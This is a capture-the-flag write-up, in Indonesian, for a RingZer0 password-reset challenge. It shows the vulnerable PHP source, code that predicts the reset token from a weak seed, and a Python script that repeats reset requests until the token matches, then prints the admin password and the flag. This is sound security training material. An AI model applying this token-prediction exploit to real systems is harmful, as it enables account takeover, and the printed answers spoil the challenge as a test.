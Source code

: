 <h1>Password reset reloaded</h1>
<h3>Decription</h3>
<label>http://challenges.ringzer0ctf.com:10120/</label>
<h3>Solution</h3>
<label>cek source code</label>

```php
<?php // Using PHP7.0
$hSql = new MYSQL_HANDLE();
$success = "";
$size = 32;

if(	URL_HANDLE::GetInstance()->post->username == "admin" && 
	URL_HANDLE::GetInstance()->post->password == "XXXXXXXXXXXXXXXX") {

	$success = '<div class="flag">FLAG-XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX</div>';	
} else {
	if(isset($_POST['reset_username'])) {
		$token = "";
		$seed = (int)bin2hex(openssl_random_pseudo_bytes($size / 2));
		srand($seed);
		
		for($i = 0; $i < 16; $i++) {
			$randomDigit = (string)rand() % 10;
			$token .= "," . $randomDigit;
		}
		$token = str_replace(",", "", $token);
		
		$success = '<div class="success">Reset password link has been sent to admin@youdontownthisemailagain.com. Please follow the link http://ringzer0team.com/challenges/120/?k=[your 16 digits code] soon as possible your token expired in 1 hour.</div>';
		$hSql->FastQuery('DELETE FROM chal_120 WHERE ip_addr = ?', array($_SERVER['REMOTE_ADDR']));
		$hSql->FastQuery('INSERT INTO chal_120 VALUES (?,?,?)', array($_SERVER['REMOTE_ADDR'], $token, time() + 3600)); 
	}
	if(URL_HANDLE::GetInstance()->get->k != null) {
		$result = reset($hSql->FastQuery('SELECT * FROM chal_120 WHERE ip_addr = ? AND recovery_key = ? ', array($_SERVER['REMOTE_ADDR'], URL_HANDLE::GetInstance()->get->k)));
		if($hSql->RowCount() != 0) {
			if($result->expired_time > time()) {
				$success = '<div class="success">Here\'s your new password: XXXXXXXXXXXXXXXX</div>';
			} else {
				$success = '<div class="error">Expired recovery key!</div>';
			}
		} else {
			$success = '<div class="error">Invalid recovery key!</div>';
		}
	}
}
?>
```
<label>seeder generate yaitu 16 bytes random bytes yg diconvert ke hex dan diconvert lagi ke integer, dan kemungkinan seedernya paling sering muncul yaitu=0</label>

```php
$success = "";
$size = 32;
$seed = (int)bin2hex(openssl_random_pseudo_bytes($size / 2));
srand($seed);
echo "Seed: " . $seed . "<br>";
$token = "";
for($i = 0; $i < 16; $i++) {
    $randomDigit = (string)(rand() % 10);
    $token .= "," . $randomDigit;
}
$token = str_replace(",", "", $token); 
echo "Token: " . $token . "<br>";  #hasil 3675356291270936
```
<h5>Seeder Harus dari PHP 7.0</h5>
<label>cari dan generate token dari seeder = 0 disini</label>

```python3
import requests

sess = requests.Session()
url_reset = 'http://challenges.ringzer0ctf.com:10120/'
url_verify = 'http://challenges.ringzer0team.com:10120/?k=3675356291270936'
for i in range(100):
    data = {
            "reset_username":"admin",
        }

    res = sess.post(url_reset,data=data)
    res1 = sess.get(url_verify).text
    if "Invalid recovery key" not in res1:
        print(res1)
```
<label>bruteforce request jika token = 3675356291270936 hingga didapatkan password</label>
<pre>
Username : admin
Password : CrytoIsCool!1337
</pre>
<h3>Flag</h3>
<pre>
FLAG-LPmaGkfnDHrsMoOyHA7nIjOPRy
</pre>
